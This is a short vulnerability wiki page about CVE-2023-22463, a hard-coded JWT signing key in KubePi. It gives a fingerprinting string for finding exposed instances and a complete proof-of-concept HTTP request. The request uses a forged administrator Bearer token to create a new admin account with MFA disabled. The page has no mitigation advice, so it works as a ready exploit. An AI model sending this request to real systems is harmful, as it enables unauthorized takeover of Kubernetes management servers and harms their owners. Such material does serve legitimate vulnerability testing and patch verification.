 # KubePi JwtSigKey Login Bypass Vulnerability CVE-2023-22463

## Vulnerability Description

There is JWT hard-coded in KubePi. The attacker can obtain the server background management permissions through hard-coded and add any user.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">KubePi </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"kubepi"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1690696537476-99918b4b-0282-46f5-a2ed-231c59aa0400.png)

Verify POC

```http
POST /kubepi/api/v1/users HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
accept: application/json
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJuaWNrTmFtZSI6IkFkbWluaXN0cmF0b3IiLCJlbWFpbCI6InN1cHBvcnRAZml0MmNsb3VkLmNvbSIsImxhbmd1YWdlIjoiemgtQ04iLCJyZXNvdXJjZVBlcm1pc3Npb25zIjp7fSwiaXNBZG1pbmlzdHJhdG9yIjp0cnVlLCJtZmEiOnsiZW5hYmxlIjpmYWxzZSwic2VjcmV0IjoiIiwiYXBwcm92ZWQiOmZhbHNlfX0.XxQmyfq_7jyeYvrjqsOZ4BB4GoSkfLO2NvbKCEQjld8

{
  "authenticate": {
       "password": "{{randstr}}"
  },
  "email": "{{randstr}}@qq.com",
  "isAdmin": true,
  "mfa": {
          "enable": false
   },
  "name": "{{randstr}}",
  "nickName": "{{randstr}}",
  "roles": [
       "Supper User"
  ]
}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20230813162451716.png)